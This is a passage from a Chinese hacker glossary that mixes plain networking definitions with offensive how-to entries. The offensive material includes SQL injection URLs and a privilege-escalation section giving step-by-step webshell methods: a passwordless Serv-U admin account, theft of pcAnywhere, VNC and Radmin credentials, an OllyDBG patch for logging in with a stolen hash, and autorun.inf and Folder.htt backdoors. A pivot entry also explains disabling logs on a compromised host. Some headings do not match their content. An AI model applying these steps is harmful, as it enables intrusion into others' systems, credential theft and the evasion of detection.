比如在进行 LOG 登录时，如果是数字型的，则采用以下注入语句：

```text
http://127.0.0.1/test.asp?a=1; declare @a sysname, @s varchar(4000) select @a=db_name(), @s=0x73737373434 backup database @a to disk=@s--
```

如果是字符型的，则必须用 `"` 闭合前面一个双引号，整条语句如下：

```text
http://127.0.0.1/test.asp?a=1"; declare @a sysname, @s varchar(4000); select @a=db_name(), @s=0x73737373434 backup database @a to disk=@s--
```


### 双绞线

即类型为 RJ-45 的网线，这是我们平时最常用的网线，又称双绞线，如图 S-5。其含有八根末端铜线接头，用于提高数据的传输速度。RJ-45 端口在网络通信中主要用于连接计算机的以太网卡。

以太网中主要采用双绞线作为传输介质，所以根据端口的通信速率不同，RJ-45 端口又可分为 10Base-T 和 100Base-TX 两类。其中 10Base-T 端口在路由器中通常标识为“ETH”，而 100Base-TX 端口则通常标识为“10/100bTX”，这主要是现在快速以太网路由器产品多数还是 10/100Mbps 带宽自适应标准。


### 私钥

即私有不公开的【密钥】，用公钥加密过的数据只有特定的私钥才能解密，详情请见【数字签名】与密钥词条。

## 宿主｜病毒与恶意软件

病毒技术里的宿主含义与生物学上的宿主含义颇为相似，也就是病毒感染并“寄生”的地方，只不过这里的宿主不是动物或植物，而变成了其他的【可执行程序】。一旦宿主被运行，则其中的病毒也会得到传播。

## 算法｜特定名称

算法是指完成一个任务准确而完整的描述。也就是说给定初始状态或输入数据，经过计算机程序的有限次运算，能够得出所要求或期望的终止状态或输出数据。简单地说，也可以把算法理解为解决问题的方法，它是计算机技术中最重要的概念之一，所有的程序编写归根到底其实就是算法与数据结构的问题，所以，任何程序的编写都离不开算法。

## 挑战/响应验证机制｜安全技术

这是计算机网络中最常用的一种安全认证方式，俗称挑战响应机制，SMB 等许多协议都是这样的一个认证过程，其步骤如下：

- 1. A 机器试图访问 B 机器某共享资源的时候，A 机器会发送当前登录的用户名和密码，由 B 机器进行验证。
- 2. 此时 B 机器会随机产生 8 字节的挑战（Challenge），送往 A 机。
- 3. A 在本地将自己的密码加密为散列（HASH）；然后再用 HASH 对获得的 Challenge 加密，这就得到了一个 RESPONSE，接着再发送给 B。
- 4. B 获得了 RESPONSE 后再将用户名、Challenge、RESPONSE 这三样东西进行校验。
- 5. 对比后决定是否通过认证。

## 套接字｜程序语言与并发

套接字即 Socket，它用于描述 IP 地址和端口，是一个通信链的句柄。应用程序一般通过套接字向网络发出请求或者应答网络请求。套接字最初是为支持 TCP/IP 协议而开发的，现在它已被认为是开发非 RPC Windows 网络应用程序的最好途径。

Socket 原意是“插座”，其就相当于进行网络通信两端的插座，只要对方的 Socket 和自己的 Socket 有通信连接，双方就可以发送和接收数据了。其定义类似于文件【句柄】的定义，如图 T-1，为套接字工作的层面。

应用层通过传输层进行数据通信时，TCP 和 UDP 会遇到同时为多个应用程序进程提供并发服务的问题。多个 TCP 连接或多个应用程序进程可能需要通过同一个 TCP 协议端口传输数据，为了区别不同的应用程序进程和连接，许多计算机操作系统为应用程序与 TCP/IP 协议交互提供了称为套接字的接口。区分不同应用程序进程间的网络通信和连接，主要有 3 个参数：通信的目的 IP 地址、使用的传输层协议（TCP 或 UDP）和使用的端口号。

通过将这 3 个参数结合起来，与一个“插座”Socket 绑定，应用层就可以和传输层通过套接字接口，区分来自不同应用程序进程或网络连接的通信，实现数据传输的并发服务。


## 特征码｜免杀技术

特征码是从病毒文件中的不同位置提取的一系列字节，用来表示与区分病毒。杀毒软件就是通过这些字节及位置信息来检验某个文件是否为病毒。每个杀毒软件公司都有自己的特征码提取方法和提取工具，这也是特别需要技术的地方，弄不好就造成误判，将好文件当成病毒报警。所以，杀毒软件公司在提取特征码后，一般都需要经过较严格的测试和比对，以最少程度减少误报的可能。

以前的杀毒软件由于必须要先有特征码才能针对性地进行杀毒，所以其总是处于被动地位，同时对未知病毒没有防范能力。现在，基于行为特征的【主动防御】技术（被称为 HIPS）已经开始应用于杀毒软件中，使得其防御能力更上一层楼。

## 腾讯｜特定名称

腾讯是国内著名的 IT 公司，QQ 就是他们的代表产品。腾讯公司成立于 1998 年 11 月，是目前中国最大的互联网综合服务提供商之一，也是中国服务用户最多的互联网企业之一。

## 提权｜渗透技术

提权即提升权限。在很多时候，我们入侵目标主机，得到的【权限】可能很小，很多操作都会受到限制，所以无法完全控制这台主机，这个时候就需要把权限扩大，也就是提权了。

权限不足的情况很常见，例如通过 SQL 注入得到的 SHELL，如果对方的服务器软件是 IIS 的话，那一般得到的是 User 权限。因为访问 IIS 里的页面时，默认设置是继承的 IIS 专有账户“IUSR_计算机名”这个用户的权限，而这个用户隶属于 User 组，所以得到的 WEBSHELL 就是普通用户权限了。

提权在整个人侵及渗透过程中有着举足轻重的地位，下面总结一些 WEBSHELL 下基本的提权方法。

#### 一、利用 Serv-U 提权

这个可能是现在网络最“泛滥”的提权方法了，有两种思路，一种是如果对方 Serv-U 目录可写的话，进入其目录，并修改 ServUDaemon.ini 文件的内容。比如这里加个用户，密码为空，设置信息如下：

```ini
[USER=WekweN|1]
Password=
HomeDir=c:\
TimeOut=600
Maintenance=System
Access1=C:\,RWAMELCDP
Access1=d:\,RWAMELCDP
Access1=f:\,RWAMELCDP
SKEYValues=
```

这个用户具有最高权限，我们可以 FTP 上去，然后执行命令 `quote site exec xxx` 来提升权限。另一种是利用其默认的管理密码进行提权，详细步骤请见 **Serv-U** 词条。

#### 二、利用 pcAnywhere 提权

利用 WEBSHELL 进入 pcAnywhere 的存放密码的目录，一般为：`C:\Documents and Settings\All Users\Application Data\Symantec\pcAnywhere\`，直接把它的 CIF 文件下载到本地进行破解，然后得到 pcAnywhere 密码就可以登录了。

### 三、利用【启动项】提权

Windows 系统启动项的目录一般为：`C:\Documents and Settings\All Users\「开始」菜单\程序\启动`，是一个可以自动启动程序的目录，其权限是 Everyone，即使是 User 权限也可以在里面放置文件。这样，我们只要把提权的文件（如一个添加用户的 BAT）放在这个目录下就可以让系统开机时自动运行了。

#### 四、硬盘根目录启动文件法

在硬盘根目录下可以放置名为 `autorun.inf` 的文件，内容为：`autorun=xxx.exe`，其中 `=` 后面就是要运行的文件，这样只要管理员进入了硬盘的根目录就会运行这个文件。

另外，还可以利用其他两个文件：`desktop.ini` 与 `Folder.htt`，下面是其利用方法。

首先在本地建立一个文件夹，名字随便写，接着进入目录后在空白处点右键，选择“自定义文件夹”（XP 好像是不行的）一直下一步，默认即可。

完成后，你就会在此目录下看到 Folder Settings 文件夹和 desktop.ini 文件（如果你看不到，请先从“资源管理器”－“工具”－“文件夹选项”－“查看”里取消“隐藏受保护的操作系统文件”前的勾），然后进入 Folder Settings 目录找到 Folder.htt 文件，用记事本打开，在任意地方加入以下代码：

```html
<OBJECT ID="RUNIT" WIDTH=0 HEIGHT=0 TYPE="application/x-oleobject" CODEBASE="你的后门文件名"></OBJECT>
```

然后将后门文件放在 Folder Settings 目录下，把此目录与 desktop.ini 一起上传到对方主机的硬盘根目录下，这样当管理员进入硬盘根目录时就会运行这个后门文件了。

#### 五、VNC 与 Radmin 提权法

默认情况下 VNC 密码存放在注册表的 `HKCU\Software\ORL\WinVNC3\Password` 项位置处，读出这个键值后可以使用一个叫 vncx4 的程序进行破解。vncx4 使用很简单，只要在命令行下输入 `c:\>vncx4 -W`，然后顺序输入得到的每一个十六进制数据，每输完一个回车一次就行了。

而对于 Radmin 则有一种成功率更大的方法。如果对方主机装了 Radmin 的话，则可以直接从注册表的 `HKLM\SYSTEM\RAdmin\v2.0\Server\Parameters\` 项位置处读出其密码的 HASH 值。

Radmin 的注册表值是经过加密的 MD5 类型 32 位 Hash 值，存放方式如下：`port 端口, Parameter REG_BINARY 1f 19 8c dd ** ** ** ** ** **`。从 1f 到后面的 **，一共有 16 组，每组两个，合起来就是 32 位了。利用下面的方法我们可以直接将散列导入 Radmin 控制端，然后就可以直接进行连接了。

工具：Radmin 控制端、OllyDBG 反汇编。

首先用 OllyDBG 打开 Radmin 控制端（客户端），然后按 `Ctrl+F` 搜索 `JMP EAX`。接着按一下 F4 再按 F8，再按鼠标右键选择“查找”－“所有常量”，输入 `10325476`（很好记的，反过来就是 76543210）。

在弹出的窗口中选择第一行，F2 下断，然后 F9 运行。这时用 Radmin 连接你要入侵的服务器，会弹出叫你输入密码的提示框，不用管，随便输入密码。等你输入完后，OD 也就激活了。这时你要先运行下 `Ctrl+F9`，再往上几行选中红色的那块，就是刚才下断的地方。再次按 F2 一下取消断点，然后再按 F8，这时鼠标往下走，找到“ADD ES,18”这里，按一下 F4。这时在左下角的“hex”那里随便找个地方点一下，然后运行 `Ctrl+G`，在弹出的栏里输入`[esp]`，注意带中括号哦！然后把第一行复制替换成刚才我们得到的 Radmin 的密码 hash 值，这样就可以直接对远程 Radmin 主机进行连接了。

#### 六、替换服务器法

如果对方主机的一些【服务】启动的路径权限没有设置好，则可以将其启动的文件替换成我们提权的文件，这样当对方主机重启之后就会运行我们的提权文件。

## 【天网防火墙】｜应用程序

天网防火墙是国内著名的老牌【软件防火墙】，如图 T-2，于 1999 年推出，历史悠久，技术成熟。


## 【跳板】｜黑客技术基础

跳板是黑客技术中重要的概念，一个老道的黑客是不可能不通过跳板来访问远程主机的。跳板，简单地说就是一个转发数据的主机，它可以是一个【代理服务器】，也可以是一个利用其他程序进行数据包转发的计算机。总之，跳板的目的是隐藏入侵者的实际 IP 地址，干扰追踪。

另外，还有一个多级跳板的概念，就是通过多个主机对目标主机进行入侵或控制，这些主机可能都是代理服务器，也可能是被入侵者控制的多个【肉鸡】。

通过代理服务器做跳板的话可以利用 SocksCap 这款软件，或者直接用端口转发工具 PortTunnel 来直接将数据转发到指定主机。

下面我们利用 WINDOWS 自带的远程终端拨入服务（RADIUS）来做跳板，前提是对方已经开放了【终端服务】。连接上去后我们首先开启“路由及远端存取”（注：简体中文操作系统应该是“路由和远程访问”，以下都是用繁体中文操作系统来说明，请大家自己区别）。然后在“WWW（本地）”处按鼠标右键，选择“设定和启用路由及远端存取”，如图 T-3。


接着进行一般设定，这里我选择“远端存取伺服器”，如图 T-4。接着点击“下一步”，选择“设定进阶的远端存取伺服器”，如图 T-5。继续“下一步”，选定远程登录的协议，然后选“是，所有需要的通讯协定都在这个清单上”，如图 T-6。


图 T-4


图 T-5

图 T-6

继续“下一步”，选择“从指定范围的位置”，如图 T-7。接着“下一步”来“新增”地址范围，如图 T-8，在这个范围要填你本机主机的 IP 段。


图 T-7

图 T-8

输入好 IP 段后点击“下一步”，再选择“否，我不想现在设定这台伺服器来使用 RADIUS”，如图 T-9。

设置好后进入“电脑管理”，选择“系统工具”－“本机使用者和群组”－“使用者”，在准备拨入的用户上按鼠标右键，将“拨入”选项更改为“允许存取”，如图 T-10。

另外，为了安全，在肉鸡的“路由及远端存取”下的“WWW（本机）”上按鼠标右键，选择属性里的“事件记录”项，选取“停用事件记录”，如图 T-11。


图 T-9


图 T-10


图 T-11

接着，在本机打开“网络和拨号连接”，执行“新建连接”，准备通过 INTERNET 拨号到专用网络，如图 T-12。

选中你的拨号 ISP，接着把目标地址（就是肉鸡的 IP）填上，如图 T-13。

双击刚创建的连接，填入在肉鸡上设置的有拨入权限的用户名和密码，如图 T-14、图 T-15。拨入后，本机访问其他远程主机的 IP 就变成了肉鸡的 IP 了。

## T 黑客词典

## 头文件  程序语言与开发

头文件是程序编写时的重要概念，在各种语言的程序中都被使用，其中以 C/C++ 中最为广泛。一般而言，每个 C/C++ 头文件，是作为一种包含功能函数、数据接口声明的载体文件，用于保存程序的声明（declaration）；而定义文件用于保存程序的实现（implementation）。

C++/C 程序的头文件以“.h”为后缀，而 ASP 中也同样经常用这个概念，一般是以 <!--#include file="define.asp"--> 这种形式，其中的 define.asp 文件一般都包含常用的函数及其变量定义，这样减少了重复写代码的工作量。

## 脱壳  加密解密

脱壳即将程序上所加的【壳】去除，还原程序本来的面目，这道工序一般分为【手工脱壳】和自动脱壳，关于【手工脱壳】请见其相关词条，这里只讲自动脱壳。

自动脱壳就是用专门的脱壳工具来脱，一些常用的加壳工具都有别人写的脱壳工具所对应，如 ASPACK，就需要 UNASPACK 对付；而且有些加壳工具自身就能脱壳，如 UPX。自动脱壳工具的好处是简单实用，缺点是当加壳工具的版本更新后一般就没用了。

## 拓扑结构  黑客技术基础

拓扑结构在很多时候又称网络拓扑结构（Topology），简单地说它就是计算机连接的方式。

网络拓扑是指用传输媒体互连各种设备的物理布局，特别是计算机分布的位置以及电缆如何通过它们。设计一个网络的时候，应根据自己的实际情况选择正确的拓扑方式，每种拓扑都有它自己的优点和缺点。

计算机网络的拓扑结构是引用拓扑学中研究与大小、形状无关的点、线关系的方法。把网络中的计算机和通信设备抽象为一个点，把传输介质抽象为一条线，由点和线组成的几何图形就是计算机网络的拓扑结构。网络的拓扑结构反映出网中每个实体的结构关系，是建设计算机网络的第一步，是实现各种网络协议的基础。它对网络的性能、系统的可靠性与通信费用都有重大影响。

### 最基本的网络拓扑结构有：环形拓扑、星形拓扑、总线拓扑三个。

- 1、星型拓扑结构是指每个结点都由一条单独的通信线路与中心结点连接，如图 T-16。  
  优点：结构简单、容易实现、便于管理；连接点的故障容易检测和排除。  
  缺点：中心结点是全网络的可靠瓶颈，中心结点出现故障会导致网络的瘫痪。

- 2、总线拓扑结构是将网络中的所有设备通过相应的硬件接口直接连接到公共总线上，结点之间按广播方式通信，一个结点发出的信息，总线上的其它结点均可“收听”到。最著名的总线拓扑结构是以太网（Ethernet），如图 T-17。  
  优点：结构简单、布线容易、可靠性较高并易于扩充，是局域网经常采用的拓扑结构。  
  缺点：所有的数据都需经过总线传送，总线成为整个网络的瓶颈，出现故障时诊断较为困难。

- 3、环形拓扑结构的各结点通过通信线路组成闭合回路，环中数据只能单向传输。最著名的环形拓扑结构网络是令牌环网（Token Ring），如图 T-18。  
  优点：结构简单，适合使用光纤，传输距离远，传输延迟稳定。  
  缺点：环网中的每个结点均成为网络可靠性的瓶颈，任意结点出现故障都会造成网络瘫痪；另外故障诊断也较困难。

- 4、树型拓扑结构是一种层次结构，结点按层次连接，信息交换主要在上下结点之间进行，相邻结点或同层结点之间一般不进行数据交换，如图 T-19。  
  优点：连接简单，维护方便，适用于汇集信息的应用要求。  
  缺点：资源共享能力较低，可靠性不高，任何一个工作站或链路的故障都会影响整个网络的运行。

- 5、网状拓扑结构又称作无规则结构，结点之间的连接是任意的，没有规律，目前广域网基本上采用网状拓扑结构，如图 T-20。  
  优点：系统可靠性高，比较容易扩展；但是结构复杂，每一结点都与多点进行连接，因此必须采用路由算法和流量控制方法。

## HACK TIPS:

对于渗透攻击来说，弄清一个内部网络的拓扑结构是至关重要的，这些信息包括有几个路由器、WEB 服务器、FTP 服务器与域服务器的位置、它们各自的 IP 是多少、与本身控制的这台主机又是什么关系等，这些信息可为以后确定渗透方案打下坚实的基础。

关于如何获取以上信息，一般的方法是采用【踩点】与【查点】来配合，相关操作请参考其词条。

### W

### 无 ARP 欺骗嗅探技术

无 ARP 欺骗嗅探技术是最近出来的一种新式攻击手法，它是为突破 ARP 防火墙与双向绑定技术而产生的。

一般的【交换机】都会有基本的学习功能，能够自动建立 MAC 与对应的数据转发端口之间的映射，也就是 CAM 表。如果说 ARP 欺骗是控制双方主机的 IP 与 MAC 映射表的话，那么无 ARP 欺骗嗅探技术就是控制 MAC/PORT 表。攻击主机伪造大量的 MAC 地址为网关 MAC 地址，然后向 IP 发送数据包（一般为 UDP，因为发包速度极快），告诉交换机由这个端口转发过来的数据是网关转发过来的，这样也就重新修改了 CAM 表，使得所有发向网关的数据也就流向了攻击者。

常见的攻击工具有 SSCLONE、SKILLER 和 HTTPHIJACK，如图 W-1，为 SSCLONE。

图 W-1

### 外部提交

在进行 WEB 入侵的时候，我们可能会要在【表单】里输入一些特殊的字符，如【一句话】木马的代码等。但很多时候，由于表单参数的问题，造成表单输入的长度不够，或者不能输入特定字符等，这时就可以把此网页保存至本地，然后手动修改网页源代码，将表单的参数自行更改，最后把【POST】地址改成远程主机的地址再进行提交就可以了。这种过程就叫做外部提交。

## HACK TIPS:

常见的外部提交过程为：利用 WSOCKEXPERT 将提交的数据抓下来，修改后利用 NC 进行提交。

### 外网

外网是区别于【内网】来说的，也叫【公网】，详情请见【公网】词条。

## 伪象  应用程序

国内使用率非常高的一款网吧管理软件。

## 网段  黑客技术基础

网段即网络的区段，用来将网络中的电脑划分到一个个网络的小集合，这样可以方便管理。如果把整个网络比作一个学校的话，网段就是这个学校里的各个班级。一般来说，划分网段是通过 IP 地址段来实现，也可以通过 VLAN 来划分。

例如，将三台电脑的 IP 分别设为 192.168.1.2、192.168.1.3 与 192.168.48.55，【子网掩码】都设为 255.255.255.0，则前两个电脑就在同一个网段，而第三台电脑就与前两台电脑不在同一网段。

## 网关  黑客技术基础

网关即 Gateway，它可以在传输层上实现两个独立的网络互连，既可用于广域网互连，也可用于局域网互连。网关可以是一个路由器，也可以是一台有路由功能的计算机，或者是一个【硬件防火墙】。

通过这样的比喻可以很好地描述网关的作用：从一个房间走到另一个房间，必须要经过一扇门。同样，从一个网络向另一个网络发送信息，也必须经过一道“关口”，这道关口就是网关！顾名思义，网关（Gateway）就是一个网络连接到另一个网络的“关口”。

在 CMD 下输入 ipconfig 命令后，只要看到“Default Gateway”后的 IP 地址，那就是你电脑的网关地址：

```
C:\Documents and Settings\Administrator>ipconfig

Windows IP Configuration

Ethernet adapter 本地连接:

Connection-specific DNS Suffix . . .
IP Address. . . . . . . . . . . . . : 192.168.1.14
Subnet Mask . . . . . . . . . . . . : 255.255.255.0
Default Gateway . . . . . . . . . . : 192.168.1.1
```

比如有网络 A 和网络 B，网络 A 的 IP 地址范围为：“192.168.1.1—192.168.1.254”，子网掩码为：“255.255.255.0”；网络 B 的 IP 地址范围为：“192.168.2.1—192.168.2.254”，子网掩码为：“255.255.255.0”。

在没有路由器的情况下，两个网络之间是不能进行【TCP/IP】协议通信的，即使是两个网络连接在同一台交换机（或集线器）上，TCP/IP 协议也会根据子网掩码（255.255.255.0）判定两个网络中的主机处在不同的网络里。而要实现这两个网络之间的通信，则必须通过网关。

如果网络 A 中的主机发现数据包的目的主机不在本地网络中，就把数据包转发给它自己的网关，再由网关转发给网络 B 的网关，网络 B 的网关再转发给网络 B 的某个主机。

## HACK TIPS:

网关是一个网络中最重要的部分，它可以是一台路由器，也可以是一台电脑。当攻击者控制了网关后，它几乎就能控制整个局域网了。

## 网卡  硬件

网卡的全称为网络接口卡（NIC），计算机与外界网络的通信都必须通过这块网卡。网卡是工作在数据链路层的网络组件，网卡上面装有处理器和存储器（包括 RAM 和 ROM）。

网卡和局域网之间的通信是通过电缆或双绞线以串行传输方式进行的，而网卡和计算机之间的通信则是通过计算机主板上的 I/O 总线以并行传输方式进行。因此，网卡的一个重要功能就是要进行串行/并行转换。由于网络上的数据率和计算机总线上的数据率并不相同，因此在网卡中必须装有对数据进行缓存的存储芯片。现在许多主板已经将网卡以芯片的形式集成到了主板上，所以从外表上并不能明显地看出来。

## 网络层｜黑客技术基础

网络层是 OSI 参考模型的一部分，主要用来管理网络地址与路由的选择，决定网络设备间如何传输数据，并根据唯一的网络设备地址选择包，提供流和拥塞控制以阻止网络资源的损耗。在此层上的常见协议为 IP 与 ICMP。

## 网络地址转换服务｜黑客技术基础

NAT（IP Network Address Translator，Network Address Translation）可以通过这种服务将专用网络地址（如企业【内网】）转换为【公网】IP（如互联网 Internet），从而对外隐藏内部 IP 地址。

这样，通过在内部使用内网 IP 地址，并将它们转换为一小部分外部公网 IP 地址，可减少 IP 地址注册的费用以及节省目前越来越缺乏的地址空间（IPv4 地址现在已相当匮乏）。同时，这也隐藏了内部网络结构，从而降低了内部网络受到攻击的风险。

NAT 功能通常被集成到【路由器】【防火墙】及单独的 NAT 设备中，当然，现在比较流行的操作系统或其他软件（主要是代理软件，如 WinRoute）大多也有着 NAT 的功能。

NAT 设备（或软件）维护一个状态表，用来把内部网络的私有 IP 地址映射到外部网络的合法 IP 地址上去。每个包在 NAT 设备（或软件）中都被翻译成正确的 IP 地址发往下一级。与普通路由器不同的是，NAT 设备实际上对【报头】进行修改，将内部网络的源地址变为 NAT 设备自己的外部网络地址，而普通路由器仅在将数据包转发到目的地前读取源地址和目的地址，如图 W-2。

NAT 分为三种类型：静态 NAT（static NAT）、NAT 池（pooled NAT）和端口 NAT（PAT）；其中，静态 NAT 将内部网络中的每个主机都永久映射成外部网络中的某个合法地址；而 NAT 池则是在外部网络中定义了一系列合法地址，采用动态分配的方法映射到内部网络；端口 NAT 则是把内部地址映射到外部网络的一个 IP 地址的不同端口上。

使用网络地址转换服务，使得外部网络对内部网络不可视，从而降低了外部网络对内部网络攻击的风险性。因为攻击者想入侵内部网络，必须首先解决 NAT 网关才能进入。由于 NAT 有这么多优点，所以很受企业的青睐，使用 NAT 使得像企业这样的大型网络的安全很方便管理。

## 网络神偷｜黑客工具

- 1、可对本地及远程驱动器进行：新建文件、新建文件夹、查找文件、剪切、复制、粘贴（包括：本地文件操作、上传、下载、同远程主机的文件复制与移动）、本地运行、远程运行、重命名、删除、查看、修改驱动器属性、修改文件属性等操作，支持断点续传，并且所有操作均支持多选及文件夹操作。

- 2、运用了“反弹端口原理”与“HTTP 隧道技术”。

  “反弹端口原理”：由服务端主动连接客户端，因此在互联网上可以访问到局域网里通过 NAT 代理（透明代理）上网的电脑，并且可以穿过防火墙（包括：包过滤型及代理型防火墙）。

  “HTTP 隧道技术”：把所有要传送的数据全部封装到 HTTP 协议里进行传送，因此在互联网上可以访问到局域网里通过 HTTP、SOCKS4/5 代理上网的电脑，而且也不会有什么防火墙会拦截。

  所以，该软件支持所有的上网方式，即“只要能浏览网页的电脑，网络神偷都能访问！”，它可以访问以下上网方式的电脑：拨号上网、ISDN、ADSL、DDN、Cable Modem、NAT 透明代理、HTTP 的 GET 型代理、HTTP 的 CONNECT 型代理、SOCKS4 代理、SOCKS4A 代理、SOCKS5 代理。

- 3、先进的服务端上线通知功能：服务端通过 UDP 协议发消息给客户端，在“服务端在线列表”里可以看到服务端的主机名、互联网的 IP 地址、局域网的 IP 地址、地址位置、上线时间、在线时长，所有信息一目了然，实时性高、安全可靠，而且还有运用了“HTTP 隧道技术”的服务端上线通知功能。

- 4、所有公开的数据均用 RSA 数据加密。

## 网络硬盘  黑客技术基础

网络硬盘是一项新的网络服务，即给用户提供一定大小的网络空间，可以让其将一些文件上传上去，这样不管用户到哪个地方，只要能上网就能将这个文件下载下来并使用，这就像一个硬盘放置在网络上一样，所以称之为网络硬盘。现在有许多网络服务商都提供这个服务，比如 mofile。但平时人们接触的最多的恐怕是 QQ 的网络硬盘，如图 W-3。

## 网络执法官  黑客工具

网络执法官是一款利用 ARP 欺骗原理所编写成的局域网管理辅助软件，其主要功能如下：

- 1、实时记录上线用户并存档备查

  网络中任一台主机，开机即会被本软件实时检测并记录其网卡号、所用的 IP、上线时间、下线时间等信息，该信息自动永久保存，可供查询（查询可依各种条件进行，并支持模糊查询）。利用此功能，管理员随时可以知道任一台主机的开机历史，即当前或以前任一时刻任一台主机是否开机、开机多长时间、使用的是哪一个 IP、主机名等重要信息。

- 2、自动侦测未登记主机接入并报警

  管理员登记完或软件自动检测到所有合法的主机后，可在软件中作出设定，拒绝所有未登记的主机接入网络。一旦有未登记主机接入，软件会自动将其 MAC、IP、主机名、上下线时段等信息作永久记录，并可采用声音、向指定主机发消息等多种方式报警，还可以根据管理员的设定，自动对该主机采取 IP 冲突、与关键主机隔离、与网络中所有其它主机隔离等控制措施。

- 3、限定各主机的 IP，防止 IP 盗用

  管理员可对每台主机指定一个 IP 或一段 IP，当该主机采用超出范围的 IP 时，软件会判定其为“非法用户”，自动采用管理员事先指定的方式对其进行控制，并将其 MAC、IP、主机名作永久记录备查。管理员可事先指定对非法用户实行 IP 冲突、与关键主机隔离、与其它所有主机隔离等管理方式。

- 4、限定各主机的连接时段

  管理员可指定每台主机在每天中允许与网络连接的时段，或不允许与网络连接的时段（可指定两个时段，如允许每天 8:30-12:00 和 13:30-5:00 与网络连接），并可指定每一用户是否被允许在每个周六、周日与网络连接。对违反规定的用户，软件判其为非法用户，自动记录并采用管理员事先指定的方式进行管理。管理方式同样可为 IP 冲突、与关键主机隔离、与其它所有主机隔离等。

总之，本软件的主要功能是依据管理员为各主机限定的权限，实时监控整个局域网，并自动对非法用户进行管理，可将非法用户与网络中某些主机或整个网络隔离，而且无论局域网中的主机运行何种防火墙，都不能逃避监控，也不会引发防火墙警告，提高了网络安全性。管理员只需依据实际情况，设置各主机的权限及违反权限后的管理方式，即可实现某些具体的功能。如禁止某些主机在指定的时段访问外网或彻底禁止某些主机访问外网；保护网络中关键主机，只允许指定的主机访问等等。

## 网页探密  黑客技术基础

网桥是一种重要的网络设备。它是一个局域网与另一个局域网之间建立连接的桥梁。网桥是属于网络层的一种设备，它的作用是扩展网络和通信手段，在各种传输介质中转发数据信号，扩展网络的距离；同时又有选择地将有地址的信号从一个传输介质发送到另一个传输介质，并能有效地限制两个介质系统中无关紧要的通信。

网桥工作在数据链路层，它将两个 LAN 连起来，根据 MAC 地址来转发帧，可以把它看作是一个“低层的路由器”（路由器工作在网络层，根据网络地址（如：IP 地址）进行转发）。

网桥可分为本地网桥和远程网桥。本地网桥是指在传输介质允许长度范围内互联网络的网桥；远程网桥是指连接的距离超过网络的常规范围时使用的远程桥，通过远程桥互联的局域网将成为城域网或广域网。如果使用远程网桥，则远程桥必须成对出现。

远程网桥通过一个通常较慢的链路（如电话线）连接两个远程 LAN，对本地网桥而言，性能比较重要，而对远程网桥而言，在长距离上可正常运行是更重要的。

对于网桥、【交换机】、【路由器】之间的主要区别如下：

- 网桥是连接两个网络的第二层设备，可以分割冲突域，但不能分割广播域。
- 交换机可以看作是多个网桥的集合，它提供更多的分段，实现了端口间一对一的虚拟链路，成倍地增加了可用带宽；
- 路由器是第三层设备，用来连接不同的网段，它分割冲突域和广播域，提供 IP 寻址和路由的功能。

## 网页探密  攻击方法与行为

网页木马是攻击个人用户最有效、也最猖獗的一种手段，因为个人用户通常是在内网，一般对外开放的服务端口又很少，所以入侵难度很大。而对于这种个人用户，最有效的攻击方法就是利用网页木马。

网页木马可以简单理解为嵌在网页中的木马，也就是浏览了此网页即会运行此木马。

## HACK TIPS:

网页木马一般分为漏洞利用网页与木马程序本身，因为一般是无法直接通过 HTML 代码或 JS 代码来运行 EXE 文件的，所以想要达到访问时运行木马的目的就必须利用指定的漏洞。甚至是 **0DAY**。其中，漏洞主要集中在两种程序中，一种是浏览器本身的漏洞，另一种是浏览器的插件，例如暴风影音或 RealPlayer 等。通过在网页中插入指定的代码来利用这些漏洞，例如对于暴风影音漏洞，就是直接调用其 **ActiveX** 控件的 **DLL**，并向指定的函数传递精心构造的参数，达到溢出并执行木马的目的。

### 网站智能建站系统

即【整站程序】，详情请见其词条。

### 维客远程控制系统

维客远程控制系统（WiseControl）运行于 Windows 系列的操作系统上，实现的功能包括：远程开机/唤醒、登录、远程控制、文字交流、文件传输、远程重启、远程关机等一系列完整功能，是一套应用领域非常广泛的软件系统。

它集远程监控、数据通信等功能于一体，具有强大的控制能力和很高的数据传输效率以及多层系统安全保障的应用系统。WiseControl 能够让用户通过网络（局域网/广域网/互联网）、ADSL/ISDN/电话线、GPRS 无线上网、直连电缆等传输方式，对远程计算机系统进行实时控制，就像使用本地机器一样。

### 文件关联

文件关联是 **Windows** 一个重要的文件运行机制，它将一种类型的文件与一个可以打开它的程序建立起一种依存关系。

举个例子来说，位图文件（BMP 文件）在 Windows 中的默认关联程序是“画图”，如果将其默认关联改为用 ACDSee 程序来打开，那么 ACDSee 就成了它的默认关联程序。

**一个文件可以与多个应用程序发生关联**。我们可以利用文件的“打开方式”进行关联选择，也可以删除因误操作而引起的错误文件关联，并根据需要新建文件关联。在有些软件中，还可以恢复文件的关联。

由于文件关联的上述特性，所以它也经常被木马与病毒利用，它们修改指定的文件关联，并让其指向自己，这样能让每次打开特定文件时就运行木马或病毒程序。

### 文件夹加密大师

文件夹加密大师的主要功能就是对计算机上的各种文件夹进行加密，它会将文件夹中的文件加密打包成一个文件，只有输入设定的密码后才能将其解开并还原，如图 W-4。

### 无盘

无盘即没有硬盘，是网吧与一些企业常用的一种技术，也是一种降低成本的常用手段，详情请见【无盘工作站】与【无盘网络】。

### 无盘工作站

无盘工作站是无盘网络的重要组成部分，是一种计算机网络构型。无盘工作站上运行的操作系统、应用软件、硬件等文件都存储在服务器磁盘上，工作站上一般不具备磁盘驱动器（包括软盘、硬盘、光盘）。一般，Windows 系统的工作站都是通过 RPL 协议（Remote Initial Program Load，即远程初始化程序引导）来进行引导的，许多个无盘工作站与服务器一起也就组成了【无盘网络】。

### 无盘网络

无盘网络是由工作站和服务器主机组成的一种计算机网络构型，其本意就是为了降低工作站的成本，并方便管理和维护。

一个普通的有盘网络，例如一个网络教室，如果网络中的工作站出了什么问题，开不了机、上不了网，或者网络中的软件需要升级等，这时网络管理员就要忙起来了。他要负责把每台机器都调整好，安装上新的软件，甚至每台机器的硬盘都要重新格式化、分区、安装好系统等。也许过不了多久，系统又被学生不小心破坏掉，于是又是繁琐的安装、调试，不仅麻烦还耽误时间。

而无盘网络中，管理员可以把工作站要用到的操作系统及软件等都放到服务器上，系统的管理和维护都在服务器上完成，软件升级只需要配置一次，这样网络中的所有计算机就都能用上新软件。

### 无盘网络系统的应用：

- 适用于学校
- 适用于大中小型公司、企事业单位、营业厅等办公室
- 适用于游戏吧及 Internet 网吧
- 适用于酒店、KTV 歌厅等网络

### 无盘的好处：

- 每个工作站都不用硬盘，节约大量资金；
- 易管理：由于无硬盘，所以不怕随意关机或人为破坏；
- 服务器用高速磁盘阵列，加上大内存、大缓存、高速 CPU，所以响应速度极高，使普通工作站性能大幅提升；
- 安全性好：不怕恶意攻击和破坏，实现无人值守及零维护；
